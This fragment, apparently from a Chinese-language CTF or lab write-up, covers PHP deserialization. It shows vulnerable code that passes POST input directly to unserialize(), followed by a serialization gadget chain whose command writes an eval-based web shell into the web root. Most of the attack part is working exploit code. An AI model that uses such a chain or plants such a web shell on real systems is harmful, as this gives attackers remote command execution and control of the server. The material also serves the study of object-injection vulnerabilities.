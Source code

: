 ```php
            echo $this->username . " is an admin\n";
            echo "Password is xxxxxxxxx\n";
        }
        else {
            echo $this->username . " is not an admin\n";
        }
    }

}

$obj = unserialize($_POST['name']);

if (is_object($obj))
    $obj->printData();

?>
```



构造反序列化字符串

```php
<?php

class pwned {
    public function __construct() {
	$this->command = "echo '<?php @eval($_GET[cmd]) ?>' > /var/www/html/php7.4/a.php ";
    }
}

class ReadFile { 

    public function __construct() {
        $this->secret = new pwned;
    }
}

class User {

    public function __construct() {
        $this->username = "test";
        $this->isAdmin = new ReadFile;
    }

}

echo serialize(new User) . "\n";
```



文件上传成功

